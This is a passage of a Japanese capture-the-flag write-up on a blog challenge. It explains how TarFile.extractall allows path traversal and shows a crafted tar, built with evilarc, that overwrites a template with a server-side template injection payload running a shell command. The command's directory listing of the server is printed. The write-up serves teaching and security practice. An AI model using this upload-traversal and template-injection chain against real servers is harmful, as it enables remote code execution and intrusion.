 ```python
    redirect("/")
```

tar ファイルをアップロードすると `userdir/(ユーザ ID)/attachments/` というディレクトリに展開されるようですが、このとき `TarFile.extractall` が使われていることに注目します。

[Python の公式ドキュメント](https://docs.python.org/ja/3/library/tarfile.html#tarfile.TarFile.extractall)を見てみると、

> **警告**: 内容を信頼できない tar アーカイブを、事前の内部チェック前に展開してはいけません。ファイルが path の外側に作られる可能性があります。例えば、`"/"` で始まる絶対パスのファイル名や、2 重ドット `".."` で始まるパスのファイル名です。

と `TarFile.extractall` によるパストラバーサルの危険性が指摘されています。いわゆる Zip Slip のように、`../hoge` というファイルが tar ファイルに含まれていれば、展開先のディレクトリのひとつ上のディレクトリに `hoge` というファイルが展開されるのでしょう。

先程確認したようにテンプレートは `userdir/(ユーザ ID)/` というディレクトリの下にファイルとして保存されていますから、このアップロードした tar ファイルの展開処理を使えば `/update` を通さずに (= `%` が使われているかなどのチェックがされずに) テンプレートを書き換えることができそうです。やってみましょう。

[ptoomey3/evilarc](https://github.com/ptoomey3/evilarc) という便利なツールを使えば、悪い tar ファイルを簡単に作ることができます。

```
{% raw %}$ cat template 
<%
  a = __import__('subprocess').check_output('ls -la /', shell=True)
%>
{{!a}}
$ python evilarc/evilarc.py template -d 1 -o linux -f exp.tar{% endraw %}
```

できた `exp.tar` をアップロードし、記事ページにアクセスすると以下のように出力されました。

```
total 80
drwxr-xr-x    1 root     root          4096 Sep  5 03:45 .
drwxr-xr-x    1 root     root          4096 Sep  5 03:45 ..
-rwxr-xr-x    1 root     root             0 Sep  5 03:45 .dockerenv
drwxr-xr-x    1 root     root          4096 Aug 18 04:03 bin
drwxr-xr-x    5 root     root           340 Sep  5 03:45 dev
drwxr-xr-x    1 root     root          4096 Sep  5 03:45 etc
drwxr-xr-x    1 root     root          4096 Sep  5 03:33 home
drwxr-xr-x    1 root     root          4096 Aug 18 04:03 lib
drwxr-xr-x    5 root     root          4096 May 29 14:20 media
drwxrwxr-x    1 root     root          4096 Sep  5 03:33 miniblog
drwxr-xr-x    2 root     root          4096 May 29 14:20 mnt
drwxr-xr-x    2 root     root          4096 May 29 14:20 opt
dr-xr-xr-x  302 root     root             0 Sep  5 03:45 proc
drwx------    1 root     root          4096 Sep  5 03:30 root
drwxr-xr-x    2 root     root          4096 May 29 14:20 run
drwxr-xr-x    1 root     root          4096 Aug 18 04:03 sbin
drwxr-xr-x    2 root     root          4096 May 29 14:20 srv
dr-xr-xr-x   13 root     root             0 Sep  5 03:45 sys
drwxrwxrwt    1 root     root          4096 Sep  7 05:43 tmp
-rwxrwxr--    1 root     root            59 Sep  5 03:26 unpredicable_name_flag
drwxr-xr-x    1 root     root          4096 Sep  3 15:29 usr
drwxr-xr-x    1 root     root          4096 Aug 18 04:03 var
```
